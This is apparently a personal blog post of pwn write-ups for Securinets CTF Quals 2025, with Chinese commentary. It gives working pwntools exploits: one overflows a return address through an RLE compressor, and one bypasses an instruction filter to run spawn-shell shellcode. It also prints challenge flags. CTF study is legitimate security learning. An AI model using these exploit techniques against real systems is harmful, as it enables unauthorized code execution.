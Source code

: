 ```yaml
---
title: "Write-ups: Securinets CTF Quals 2025"
published: 2025-10-04
updated: 2025-10-06
description: "Write-ups for Securinets CTF Quals 2025 pwn aspect."
tags: ["Pwn", "Write-ups"]
category: "Write-ups"
draft: false
---
```


# zip++

## Information

- Category: Pwn
- Points: 500

## Description

> why isn't my compressor compressing ?!

## Write-up

问 AI，得知 `compress` 函数实现了一个 `RLE (Run-Length Encoding)` 压缩算法，压缩后格式为 `[字节 1][重复次数 1][字节 2][重复次数 2]...`，因此如果我们输入交替字符就会导致压缩率很差，溢出返回地址。

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ELF,
    args,
    context,
    flat,
    process,
    raw_input,
    remote,
)


FILE = "./main"
HOST, PORT = "pwn-14caf623.p1.securinets.tn", 9000

context(log_level="debug", binary=FILE, terminal="kitty")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(FILE)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    payload = flat(
        b"AB" * 0xC6,
        b"\xa6" * 0x11,
    )
    raw_input("DEBUG")
    target.sendafter(b"data to compress :", payload)
    raw_input("DEBUG")
    target.sendline(b"exit")

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`Securinets{my_zip_doesnt_zip}`]

# push pull pops

## Information

- Category: Pwn
- Points: 500

## Description

> Shellcoding in the big 25 😱

## Write-up

有意思，第一次见 python 写的 pwn 题，这题只允许使用 `push`, `pop` 和 `int 3` 指令，但是测试发现非法指令会导致 capstone 直接返回 None，使得后面的指令不会被检查，那我们只要栈迁移到 mmap 出来的地方，然后 nop sled 到 shellcode 就好了。

祭出指令表：[X86 Opcode and Instruction Reference Home](http://ref.x86asm.net/coder64.html)

## Exploit

```python
#!/usr/bin/env python3

from pwn import (
    ELF,
    args,
    asm,
    b64e,
    context,
    disasm,
    flat,
    process,
    raw_input,
    remote,
    shellcraft,
)


FILE = "./main.py"
HOST, PORT = "pwn-14caf623.p1.securinets.tn", 9001

# context(log_level="debug", binary=FILE, terminal="kitty")
context(log_level="debug", terminal="kitty", arch="amd64")

elf = context.binary


def launch():
    global target
    if args.L:
        target = process(["python3", FILE])
        # gdb.attach(target, gdbscript=gdbscript)
    else:
        target = remote(HOST, PORT)


def main():
    launch()

    payload_1 = asm(
        """
        push r11
        pop rsp
        pop r15
        pop r15
        pop r15
        pop r15
        push r15
        push r15
        push r15
        """
    )

    payload_2 = b"\x06" + b"\x90" * 0x10 + asm("add rsp, 0x100") + asm(shellcraft.sh())
    target.success(disasm(payload_1))
    target.success(disasm(asm("add rsp, 0x100")))
    target.success(disasm(asm(shellcraft.sh())))
    raw_input("DEBUG")
    target.sendafter(b"Shellcode : ", b64e(payload_1 + payload_2))

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`Securinets{push_pop_to_hero}`]

# push pull pops REVENGE

## Information

- Category: Pwn
- Points: 500

## Description

> you aint getting away with it , not on my watch .

## Write-up

这次题目加了输入和解码出来的指令之间的长度检测：

```python
if code_len != decoded:
    print("nice try")
    return False
```

那就把非法指令 ban 掉了，测试使用 semantically equivalent encodings 也没啥用，绕不开这个长度检测。

最后思路是自己构造一个 syscall，然后调用 read，这样就可以把 shellcode 读进去，不被过滤。

但是但是，我没做出来 :sob: 所以等有时间了再去复现一下吧，得学习一下怎么自己构造 syscall……

## Exploit

TODO

## Flag

复现。
